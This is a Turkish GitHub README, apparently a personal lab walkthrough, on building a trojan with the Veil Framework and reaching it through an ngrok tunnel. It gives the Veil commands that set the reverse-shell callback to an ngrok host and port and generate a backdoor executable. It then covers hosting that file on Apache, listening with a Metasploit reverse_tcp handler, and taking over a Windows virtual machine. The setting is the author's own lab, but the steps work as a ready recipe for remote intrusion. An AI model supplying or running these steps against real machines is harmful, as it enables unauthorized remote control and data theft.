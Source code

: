 # Veil-Ngrok-Calistirma
Veil Framework ile Ngrok Çalıştırarak Trojen Oluşturup Çalıştırmak


Veil Framework Yükleme Referansı: https://github.com/Veil-Framework/Veil


- [Ngrok.com](https://ngrok.com/) adresine giderek üye oldum.
- Site üzerinden “Download for Linux” diyerek sanal Kali makinama ngrok’u indirdim
- 2. Kısımda yazan authentication token’ımı kayderek siteden çıkış yapıyorum.
 ![ngrok site](https://user-images.githubusercontent.com/67163428/191236942-63485be5-51da-4a83-bdb2-b8a87b25e0c2.png)


- Download klasörü içinde indirdiğim Zip dosyası içinden Ngrok’u çıkardım
 ![ngrok zip çıkarılış](https://user-images.githubusercontent.com/67163428/191237212-ef13070b-bab6-49c3-ac54-4f09fbcaee61.png)


- Terminal ekranını açarak Download klasörünün içine gidiyorum, ls diyerek dosyaları kontrol ediyorum ve “ngrok” dosyasını görüyorum.
- Kaydetmiş olduğum authentication tokenı ./ngrok yaparak yapıştırıp tokenın dosyaya yazılmasını sağlıyorum.
 ![ngrok token kaydetme](https://user-images.githubusercontent.com/67163428/191237348-f267496a-8a87-4d60-933c-bf556e30e2f4.png)


- ./ngrok tcp 4848 servisini çalıştırıp kullanılmayan bir port ekliyorum.
 ![ngrok çalıştırma](https://user-images.githubusercontent.com/67163428/191237409-7ee692ce-69ab-41a0-ad84-5e4545198730.png)


- Ngrok çalışmaya başladıktan sonra gelen ekran üzerinde tcp://0.tcp.eu.ngrok.io’a ya 11810 portundan gelen verileri benim makinamın 4848 portuna aktaracağını anlıyoruz.
 ![ngrok çalışması ](https://user-images.githubusercontent.com/67163428/191237456-aae6c597-4ee8-4485-b5ee-0a6034f5b3f5.png)


- Trojen yaratmak için Veil kullanıyorum.
- Veil dosyasının kurulu olduğu yere giderek, Veil.py dosyasını çalıştırmak için “python3 Veil.py” yazıyorum.
 ![veil çalıştırma](https://user-images.githubusercontent.com/67163428/191237534-4918ef2e-2da1-4b1e-9fa7-7146eb6a5094.png)


- Çıkan ekranda 2 araç kullanılabilir olduğunu görüyorum ve 1. Aracı kullanıyorum
 ![veil iç 1](https://user-images.githubusercontent.com/67163428/191237598-cb81a1b3-0737-4200-8a10-40b79f3faec8.png)


- “list” diyerek payload listelerini görüyorum.
 ![veil iç 2](https://user-images.githubusercontent.com/67163428/191237642-27d90eda-9e55-4c8c-97bc-3dd5bb2aaf65.png)
 
 ![veil iç 3](https://user-images.githubusercontent.com/67163428/191237676-251896cd-351d-45bd-ae81-c30235050540.png)


- “use 7” diyerek 7. payloadı seçerek devam ediyorum.
 ![veil iç 4](https://user-images.githubusercontent.com/67163428/191237688-1102d3b4-fceb-4026-9007-84defebcbfba.png)


-“set LHOST 0.tcp.ngrok.io” yazıyorum. Ngrok üzerinden bize verilen adresi girdim.

- Port olarakta “set LPORT 11810” giriyorum
 ![veil iç 5](https://user-images.githubusercontent.com/67163428/191237931-9790d9fe-b387-4bc5-b377-15838e8aee39.png)


-“generate” diyerek benim için oluşturmasını istiyorum daha sonra bir isim vererek dosyanın nerede oluştuğunu görebiliyorum.
 ![veil iç 6](https://user-images.githubusercontent.com/67163428/191237959-0fad0315-d39f-418e-a973-37d49feee0ff.png)


- “/var/lib/veil/output/compiled/veilbackdoor.exe” içerisinde olan dosyamı keserek 
 /var/www/html/backdoors/” klasörünün içine aktarıyorum. (backdoors klasörünü isteğe bağlı oluşturabilirsiniz)


--------------


- Apache servisimi çalıştırıyorum.
- Dinlemeyi yapmak için msfconsole içine giriyorum.
 ![apache ve msfconsole çalıştırma](https://user-images.githubusercontent.com/67163428/191238053-41d8cdc6-b95a-43cb-b25f-8a5b5a4621c4.png)


- “ use exploit/multi/handler” 
“ set payload windows/meterpreter/reverse_tcp” komutlarını giriyorum
 ![msfconsole iç 1](https://user-images.githubusercontent.com/67163428/191238141-a1f4c3d7-8a82-4bfc-af9c-4a6327dd1986.png)


- “show opitons” içine girerek LHOST VE LPORTA BAKIYORUM.
“set LHOST 0.0.0.0” VE “set LPORT 4848” yazarak düzenleme yapıyorum.
- “exploit -j -z” diyerek dinlemeyi başlatmış oluyorum.
 ![msfconsole iç 2](https://user-images.githubusercontent.com/67163428/191238171-8f9fe884-0a44-4b34-8abb-5c1f11d337e0.png)


--------------


- Oluşturduğum sanal windows makinasını çalıştırıyorum.
- Tarayıcıyı açarak “10.0.2.15/backdors” adresine giderek veilbackdoor.exe dosyasını indiriyorum.
 ![windows indirme](https://user-images.githubusercontent.com/67163428/191238393-81524185-c4fd-44db-bd01-b06b3d3ab8ca.png)


- exe dosyasını açtıktan sonra kali makinamızın terminaline bir sessions düşüyor.
 ![msfconsole 3](https://user-images.githubusercontent.com/67163428/191238361-c3a3f034-6061-45d7-af9d-f2c47448c033.png)


- “sessions -l” yaparak tüm sessionsları görüyoruz ve bize gerekli olan “sessions -1” diyerek windows makinamızın içine giriyoruz. 
- “sysinfo” yapara makinamızın ele geçirildiğini kanıtlamış oluyoruz.
 ![msfconsole 4](https://user-images.githubusercontent.com/67163428/191238381-4063fce5-c328-4225-99d7-e330c2c7c02b.png)



